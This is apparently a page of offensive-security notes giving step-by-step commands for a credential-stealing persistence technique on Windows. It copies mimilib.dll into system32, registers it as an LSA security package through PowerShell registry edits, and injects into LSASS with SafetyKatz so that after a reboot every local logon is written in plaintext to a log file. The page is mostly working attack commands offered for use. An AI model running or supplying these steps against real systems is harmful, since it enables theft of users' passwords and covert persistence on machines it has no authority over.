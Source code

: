 # Methodology
>1. Drop `mimilib.dll` to system32.
>2. Add `mimilib` to registry.
>3. Inject into LSASS.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Copy `mimilib.dll` to system32:**
```cmd
copy mimilib.dll %systemroot%\system32
```

**Add `mimilib` to registry:**
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' 
$packages += "mimilib" 
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ - Name 'Security Packages' -Value $packages 
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

**Inject into LSASS:**
```cmd
SafetyKatz.exe '"misc::memssp"'
```

>**ℹ️ Info:**
>To take effect the computer must reboot!
>
>All local logons will be saved to `C:\Windows\system32\mimilsa.log`.